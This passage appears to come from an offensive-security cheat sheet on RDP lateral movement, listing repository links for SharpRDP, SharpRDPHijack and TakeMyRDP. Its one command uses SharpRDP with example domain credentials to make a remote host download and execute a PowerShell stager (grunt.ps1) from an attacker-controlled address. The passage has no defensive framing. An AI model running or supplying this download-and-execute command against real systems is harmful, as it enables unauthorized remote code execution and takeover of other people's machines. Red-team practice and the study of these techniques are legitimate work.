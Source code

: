- [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
- [https://github.com/S3cur3Th1sSh1t/SharpRDP](https://github.com/S3cur3Th1sSh1t/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```



### SharpRDPHijack

- [https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)



### TakeMyRDP

- [https://github.com/TheD1rkMtr/TakeMyRDP](https://github.com/TheD1rkMtr/TakeMyRDP)
- [https://github.com/nocerainfosec/TakeMyRDP2.0](https://github.com/nocerainfosec/TakeMyRDP2.0)
